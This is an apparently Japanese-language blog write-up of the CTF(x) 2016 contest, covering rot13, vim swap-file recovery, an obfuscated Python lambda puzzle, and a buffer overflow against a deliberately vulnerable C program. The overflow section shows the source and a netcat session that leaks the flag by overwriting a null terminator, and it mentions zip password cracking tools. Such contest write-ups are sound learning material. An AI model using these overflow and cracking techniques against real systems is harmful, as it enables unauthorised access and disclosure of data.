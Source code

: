 ```yaml
---
layout: post
title: CTF(x) 2016 Write Up
---
```


CTF wo Suruで参加しました. 451ptsで, 52/492 位でした.

あまり解けていないですが, 自分が解いた問題のwrite up.

Crypto * 2, Forensics * 1, Binary * 1 で201pts入れました.

## EBG13 - 1

rot 13

`ctf(rot13issupersecure!)`

## crash - 50
```
total 20
3022646 drwxrwxr-x 2 tsun tsun  4096  8月 24 15:51 .
3022578 drwxrwxr-x 3 tsun tsun  4096  8月 27 10:25 ..
3022648 -rw-rw-r-- 1 tsun tsun     0  8月 24 15:51 flag.txt
3022647 -rw-r--r-- 1 tsun tsun 12288  8月 24 15:51 .flag.txt.swp
```

解凍するとflag.txtと.flag.txt.swpがある.

これはvimで編集すれば良さそう.

```
vim flag.txt
```

すると

```
E325: ATTENTION
Found a swap file by the name ".flag.txt.swp"
          owned by: tsun   dated: Wed Aug 24 15:51:00 2016
         file name: ~defund/Desktop/rip/flag.txt
          modified: no
         user name: defund   host name: defund-VirtualBox
        process ID: 2992
While opening file "flag.txt"
             dated: Wed Aug 24 15:51:12 2016
      NEWER than swap file!

(1) Another program may be editing the same file.  If this is the case,
    be careful not to end up with two different instances of the same
    file when making changes.  Quit, or continue with caution.
(2) An edit session for this file crashed.
    If this is the case, use ":recover" or "vim -r flag.txt"
    to recover the changes (see ":help recovery").
    If you did this already, delete the swap file ".flag.txt.swp"
    to avoid this message.

Swap file ".flag.txt.swp" already exists!
[O]pen Read-Only, (E)dit anyway, (R)ecover, (D)elete it, (Q)uit, (A)bort:
```

と言われるので, Recoverを選択したらflagが出てくる.

`ctf(1@mbd4_1nsAn1ty_pl3asE_h3lp_m3)`

## λ - 100

スクリプトが与えられて, よく分からなかったけど少し書き換えて適当に100回くらい回したらflagが出てきた.

```python

s = 'n1s4_t1An(f1ctdb@mpl_h3)m3lp3y__Eas'
for i in range(100):
    flag = (lambda j,m:(lambda f,t:t if len(t) <= 1 else j([f(f,x)for x in m(j,m(reversed,(lambda s:zip(*[iter(s)]*(len(s)/2)))(t+"\x01"*(len(t)%2))))]))(lambda f,t:t if len(t) <= 1 else j([f(f,x)for x in m(j,m(reversed,(lambda s: zip(*[iter(s)]*(len(s)/2)))(t+"\x01"*(len(t)%2))))]), s))(''.join,map).replace("\x01","")
    print flag
    s = flag
# python cr.py | grep ctf

```

`ctf(1@mbd4_1nsAn1ty_pl3asE_h3lp_m3)`

## guesslength - 100

与えられる

```c
// gcc -o guesslength -m32 guesslength.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char input[50];
    int length;
    char flag[50];
} data;

int main()
{
    setbuf(stdout, NULL);
    data d;

    strncpy(d.flag, "REDACTED", sizeof(d.flag));
    
    printf("Enter your text: ");
    scanf("%s", d.input);
    
    printf("Guess the length of this text: ");
    scanf("%d", &d.length);
    
    if (strlen(d.input) == d.length) {
        printf("You guessed the length correctly. Great job!\n");
    } else {
        printf("The actual length of '%s' is %ld, not %d. Sorry :(\n", d.input, strlen(d.input), d.length);
    }
    
    return 0;
}
```

null文字を潰せば良さそう

適当に"A" * 54 と 4294967295(0xffffffff)を入力した

```bash
$ nc problems.ctfx.io 1338
Enter your text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Guess the length of this text: 4294967295
The actual length of 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???ctf(hiding_behind_a_null_overwrite)' is 91, not 2147483647. Sorry :(
```

`ctf(hiding_behind_a_null_overwrite)`

----------------

まあお終いなんですけど, passwordというforensics問題,

2つのzipが与えられて片方fcrackzipでパスワード分かって

その中身使ってpkcrackで既知平文攻撃ってのが解法っぽくて それをしていたんですけど上手くいかなかったのでよく分からないです.

お疲れ様でした〜ｗ
